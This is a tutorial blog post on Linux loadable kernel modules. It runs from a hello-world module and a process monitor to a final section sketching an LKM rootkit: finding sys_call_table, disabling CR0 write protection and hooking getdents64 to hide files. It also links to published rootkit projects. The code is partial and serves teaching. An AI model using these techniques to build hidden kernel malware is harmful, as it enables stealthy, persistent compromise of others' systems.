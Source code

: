 <img src="img/tux.jpg">
© 2021 BrunoCiccarino 

<a href="https://github.com/Ch4r0nN/LKM-Exploration/blob/main/LICENSE">LICENSE</a>

Hey folks! Today, I’m going to walk you through LKMs (Loadable Kernel Modules)—from a simple "Hello World" module all the way to creating an LKM rootkit. If you find this helpful, feel free to share it, and thanks in advance to everyone who reads till the end. You'll find all the code and references linked at the bottom of the post, so be sure to check out the sources. Trust me, digging into those and modifying the code will really help you learn more. Heads-up though—some of the code is under the GPL 3 license, so make sure you’re aware of the terms.

What You’ll Need:

`linux-headers-generic`
`A C compiler (I recommend GCC or cc)`

Table of Contents:

* 1) What is LKM and how it works
* 2) Example LKM Makefile
* 3) How modules get loaded into the kernel
* 4) LKM "Hello World"
* 5) Key changes over the years
* 6) Syscall table changes in Kernel 5.7
* 7) LKM for process monitoring
* 8) Building an LKM rootkit

### 1) What is LKM and how it works:
LKMs are Loadable Kernel Modules that help the Linux kernel extend its functionality—like adding drivers for hardware without needing to recompile the entire kernel. They’re perfect for device drivers (like sound cards), file systems, etc. Every LKM at the very least needs these two basic functions:

```c
static int __init module_init(void)
{
    return 0;
}

static void __exit module_exit(void)
{
}
```

### 2) Example LKM Makefile:
Here’s a super simple Makefile for compiling your module:

```Makefile
obj-m := example.o
KDIR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)

all:
 $(MAKE) -C $(KDIR) M=$(PWD) modules

clean:
 $(MAKE) -C $(KDIR) M=$(PWD) clean
```

### 3) How Modules Get Loaded into the Kernel:
You can see the modules loaded into the kernel with the lsmod command. It checks the info in /proc/modules. Modules usually identify the kernel through aliases like this:

`alias char-major-10–30 softdog`

This tells modprobe that the `softdog.o` module should be loaded, and it checks `/lib/modules/version/modules.dep` for dependencies created by running `depmod -a`.

### 4) LKM "Hello World":
Here’s how to make a super basic "Hello World" module:

```c
#include <linux/module.h> 
#include <linux/kernel.h> 
#include <linux/init.h>   

static int __init hello_init(void)
{
    printk(KERN_INFO "<1>Hello World\n");
    return 0;
}

static void __exit hello_exit(void)
{
    printk(KERN_INFO"<1> Bye bye!");
}

module_init(hello_init);
module_exit(hello_exit);

MODULE_AUTHOR("BrunoCiccarino");
MODULE_LICENSE("GPL");
```

### 5) Key Changes in LKM over the Years:
There have been some pretty significant changes in LKMs over time, so let’s break them down by Linux kernel version:

Kernel 2.x (up to 2.6):

Initial support for dynamic LKM loading and unloading.
Better debugging tools (OOPS, PANIC).
Kernel 2.6.x:

Introduction of udev for better device management.
Preemptive kernel for quicker response times.
Native Posix Thread Library (NPTL) improves handling of multithreaded processes.
Kernel 3.x:

Support for namespaces, improving container tech like Docker.
Filesystem and GPU driver improvements.
Kernel 4.x:

Kernel security gets a boost with KASLR.
Better container support (Cgroups, namespaces).
New hardware support.
Kernel 5.x:

Better filesystem encryption and live patching.
Expansion of BPF beyond just networks.
Better RISC-V and ARM support.
Kernel 5.7:

Major change: the syscall table (sys_call_table) became less accessible for security reasons. Modules that needed to modify the syscall table had to adapt.
Kernel 6.x:

Rust language support for safer kernel module development.
Security and isolation improvements, with a focus on energy efficiency for mobile devices.

### 6) Changes in the Syscall Table in Kernel 5.7:
In Linux 5.7, changes were made to protect the syscall table. It’s now write-protected and not easily accessible, which is a big win for security but complicated things for legitimate modules that rely on it. If you were using kprobes.h to find the sys_call_table, you’d need a new strategy. Now, you can’t modify it directly due to protections like Write-Protection (WP).

### 7) LKM for Process Monitoring:
This is a module that monitors processes in the kernel by periodically running checks (e.g., every 2 seconds) using a timer. It watches for things like process creation and termination, file access, and network usage.

Here’s a bit of code to get you started with that:

```c
#include <linux/module.h>
#include <linux/sched.h>
#include <linux/timer.h>
#include <linux/cred.h>

static struct timer_list procmonitor_timer;

static void procmonitor_check_proc_tree(unsigned long unused)
{
    struct task_struct *task;
    for_each_process(task)
        printk(KERN_INFO "process: %s, PID: %d\n", task->comm, task->pid);

    mod_timer(&procmonitor_timer, jiffies + msecs_to_jiffies(2000));
}

static int __init procmonitor_init(void)
{
    setup_timer(&procmonitor_timer, procmonitor_check_proc_tree, 0);
    mod_timer(&procmonitor_timer, jiffies + msecs_to_jiffies(200));
    return 0;
}

static void __exit procmonitor_exit(void)
{
    del_timer_sync(&procmonitor_timer);
}

module_init(procmonitor_init);
module_exit(procmonitor_exit);
```

### 8) LKM Rootkits:
Rootkits are basically malicious modules that hijack system calls to hide malware. Here’s how they hook into the syscall table and modify behavior.

First, you need to locate the syscall table:

```c
unsigned long *find_syscall_table(void)
{
    typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
    kallsyms_lookup_name_t kallsyms_lookup_name;
    register_kprobe(&kp);
    kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
    unregister_kprobe(&kp);
    return (unsigned long*)kallsyms_lookup_name("sys_call_table");
}
```

Then, you can unprotect the memory where the syscall table is:

```c
static inline void unprotect_memory(void)
{
    write_cr0_forced(cr0 & ~0x00010000);
}
```

After that, replace the original function with your hook:

```c
static int __init ghost_init(void)
{
    __syscall_table = find_syscall_table();
    if (!__syscall_table) return -1;

    cr0 = read_cr0();
    orig_getdents64 = (void *)__syscall_table[MY_NR_getdents];
    unprotect_memory();
    __syscall_table[MY_NR_getdents] = (unsigned long)hook_getdents64;
    protect_memory();
    return 0;
}
```

The hook function intercepts and hides files:

```c
asmlinkage int hook_getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count) {
    int ret = orig_getdents64(fd, dirp, count);
    // Intercept the syscall here...
    return ret;
}
```

![Image description](https://dev-to-uploads.s3.amazonaws.com/uploads/articles/v5l3gkesr11o1czfupbq.png)

### Credits
[The Hackers Choice](http://www.ouah.org/LKM_HACKING.html)
[elinux](https://elinux.org/Deferred_Initcalls)
[kernel br](https://github.com/kernelbr)
[xcellerator](https://xcellerator.github.io/posts/linux_rootkits_11)
[lkmpg](https://sysprog21.github.io/lkmpg/)
[cat enjoyer](https://telegra.ph/Hooking-linux-kernel-FIFOs-05-21)
[My rootkit](https://github.com/BrunoCiccarino/HiddenGhost)
[diamorphine](https://github.com/m0nad/Diamorphine)

